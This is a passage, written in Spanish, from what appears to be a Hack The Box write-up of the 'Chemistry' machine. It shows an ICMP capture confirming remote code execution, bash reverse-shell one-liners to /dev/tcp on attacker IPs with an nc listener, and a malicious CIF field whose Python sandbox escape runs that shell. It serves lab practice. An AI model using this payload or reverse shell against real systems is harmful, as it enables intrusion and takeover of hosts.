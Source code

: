![image-center](/assets/images/posts/chemistry-rce-poc.png){: .align-center}

Cuando veamos el archivo se ejecutará la traza ICMP hacia nuestra máquina

~~~ bash
tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:20:09.970568 IP 10.10.11.38 > 10.10.14.254: ICMP echo request, id 3, seq 1, length 64
10:20:09.970632 IP 10.10.14.254 > 10.10.11.38: ICMP echo reply, id 3, seq 1, length 64
~~~

Y Recibimos la traza `icmp` correctamente. En este punto podemos intentar establecer una `reverse shell` a nuestra máquina atacante

Editamos el archivo malicioso agregando el siguiente comando

~~~ bash
# Reemplazamos $IP por nuestra IP de HTB
/bin/bash -c '/bin/bash -i >& /dev/tcp/$IP/443 0>&1'

# En demostración, usaré la siguiente dirección IP
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.162/443 0>&1'
~~~

Configuramos un listener con `nc` para recibir la `shell` cuando ejecutemos el payload

~~~ bash
nc -lvnp 443
~~~

Eliminamos el archivo y volvemos a subirlo para que esté actualizado, al verlo en la web deberíamos obtener la `shell`. El archivo que subiremos debe lucir más o menos así

~~~ bash
# The following field contains an embedded Python code exploit
_space_group_magn.transform_BNS_Pp_abc  
'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ 
(
    # Retrieve the second element in the Method Resolution Order (MRO) of the empty tuple `()`, which is the `object` class.
    *[().__class__.__mro__[1]]
    +
    # Concatenate with the string "__subclasses__".
    ["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]  # Find the subclass named "BuiltinImporter"
[0].load_module("os")                # Load the `os` module
.system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.254/443 0>&1\'");             
0,0,0'

# Other CIF data fields
~~~